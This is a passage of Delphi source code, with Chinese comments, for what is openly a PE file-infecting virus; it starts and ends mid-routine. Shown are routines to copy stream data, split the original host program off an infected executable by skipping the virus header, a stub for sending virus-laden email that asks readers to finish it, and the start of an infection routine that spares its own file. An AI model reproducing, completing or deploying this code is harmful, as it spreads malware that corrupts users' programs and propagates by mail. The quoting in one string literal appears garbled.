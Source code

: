 sCurPos, dCurPos: Integer;
begin
sCurPos := Src.Position;
dCurPos := Dst.Position;
Src.Seek(sStartPos, 0);
Dst.Seek(dStartPos, 0);
Dst.CopyFrom(Src, Count);
Src.Seek(sCurPos, 0);
Dst.Seek(dCurPos, 0);
end;
{ 将宿主文件从已感染的PE文件中分离出来，以备使用 }
procedure ExtractFile(FileName: string);
var
sStream, dStream: TFileStream;
begin
try
      sStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
try
        dStream := TFileStream.Create(FileName, fmCreate);
        try
        sStream.Seek(HeaderSize, 0); //跳过头部的病毒部分
        dStream.CopyFrom(sStream, sStream.Size - HeaderSize);
        finally
        dStream.Free;
        end;
      finally
        sStream.Free;
      end;
except
end;
end;
{ 填充STARTUPINFO结构 }
procedure FillStartupInfo(var Si: STARTUPINFO; State: Word);
begin
Si.cb := SizeOf(Si);
Si.lpReserved := nil;
Si.lpDesktop := nil;
Si.lpTitle := nil;
Si.dwFlags := STARTF_USESHOWWINDOW;
Si.wShowWindow := State;
Si.cbReserved2 := 0;
Si.lpReserved2 := nil;
end;
{ 发带毒邮件 }
procedure SendMail;
begin
//哪位仁兄愿意完成之？
end;
{ 感染PE文件 }
procedure InfectOneFile(FileName: string);
var
HdrStream, SrcStream: TFileStream;
IcoStream, DstStream: TMemoryStream;
iID: LongInt;
aIcon: TIcon;
Infected, IsPE: Boolean;
i: Integer;
Buf: array[0..1] of Char;
begin
try //出错则文件正在被使用，退出
      if CompareText(FileName, ''''''''''''''''JAPUSSY.EXE'''''''''''''''') = 0 then //是自己则不感染
        Exit;
      Infected := False;
      IsPE       := False;
